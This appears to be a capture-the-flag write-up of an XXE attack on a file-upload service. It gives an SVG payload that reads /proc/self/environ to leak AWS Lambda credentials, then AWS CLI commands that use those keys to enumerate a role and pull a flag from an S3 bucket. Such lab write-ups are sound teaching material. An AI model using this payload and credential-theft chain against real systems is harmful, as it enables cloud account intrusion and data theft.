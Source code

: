 # File Upload XXE to Initial Access

As a first step, we have the ip address of the machine where we will perform an nmap scanning

nmap -sV -sC -Pn 52.52.110.46
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up.png)

we go inside 52.52.110.46:80 
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up2.png)
and go to the upload section

where we can insert documents or PDF,SVG,PNG,DOC
Now let's try inserting a PDF file 
We start by downloading the target PDF file from the specified S3 bucket. The file can be found at the following URL:
https://huge-logistics-dump.s3.us-west-1.amazonaws.com/uploads/file_XsbYgmXZ5n.pdf
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up3.png)
To exploit the XXE vulnerability, we need to inject a reference to an external entity into an XML document. This will cause the XML parser to read from a local file, such as /proc/self/environ, which contains environment variables that could include sensitive AWS credentials.

The XML payload can be constructed as follows:
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE replace [
    <!ENTITY xxe SYSTEM 'file:///proc/self/environ'>
]>
<svg>
    <text>&xxe;</text>
</svg>
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up4.png)
This code injects the contents of /proc/self/environ (which includes environment variables) into an SVG document. The XXE vulnerability allows you to extract sensitive information, such as AWS access keys, session tokens and other environment variables.

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up5.png)
Lambda functions can access environment variables in the file /proc/self/environ. To retrieve sensitive data such as AWS credentials, you can export these environment variables:

export AWS_ACCESS_KEY_ID="<access_key>"

export AWS_SECRET_ACCESS_KEY="<secret_key>"

export AWS_SESSION_TOKEN="<secret_token>"

# ATTENTION

Important Notes:![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup6.png)
Be sure to exclude the SHLVL parameter, as it may interfere with AWS credentials.
AWS session tokens are base64 encoded, so be sure to copy the entire token, including the final = or == characters.
AWS credentials beginning with AKIA indicate long-term keys, while those beginning with ASIA are temporary session keys that require a session token.
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup7.png)

To obtain AWS entity information, run the following command:


aws sts get-caller-identity
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup8.png)
If you already know the name of the role, you can obtain the details of the role using the command:

aws iam get-role --role-name S3PutObjectRole


This command returns the JSON output shown below and the role description refers to a new bucket named logistics-processing bucket. 
{
    "Role": {
        "Path": "/",
        "RoleName": "S3PutObjectRole",
        "RoleId": "AROARSCCN4A3XDUV2IJGA",
        "Arn": "arn:aws:iam::107513503799:role/S3PutObjectRole",
        "CreateDate": "2023-10-30T06:34:05Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "lambda.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Description": "Allows Lambda functions to write objects in the huge-logistics-dump bucket and read from the huge-logistics-processing bucket.",
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {
            "LastUsedDate": "2023-11-22T16:51:21Z",
            "Region": "us-west-1"
        }
    }
}
This reveals a SQLite database called data-service.sqlite . SQLite is a popular and easy-to-use relational database system that developers often incorporate into their applications.

To see the files contained in the huge-logistics-processing bucket, use the command:

aws s3 ls huge-logistics-processing --recursive --human-readable --summarize
This command will list all the files in the bucket, showing their size in a readable format and a summary of the information.

In the bucket there is a file called flag.txt, you can retrieve it with the command:
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup9.png)
 aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt -

The - symbol at the end of the command indicates that you want to display the contents of the file directly in the terminal, instead of copying it to a local file

If you prefer to save the file locally, you can do so:
aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt /path/to/local/flag.txt
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup10.png)
naturally replace /path/to/local with the path you wish to save the file.

# FLAG FOUND!!!
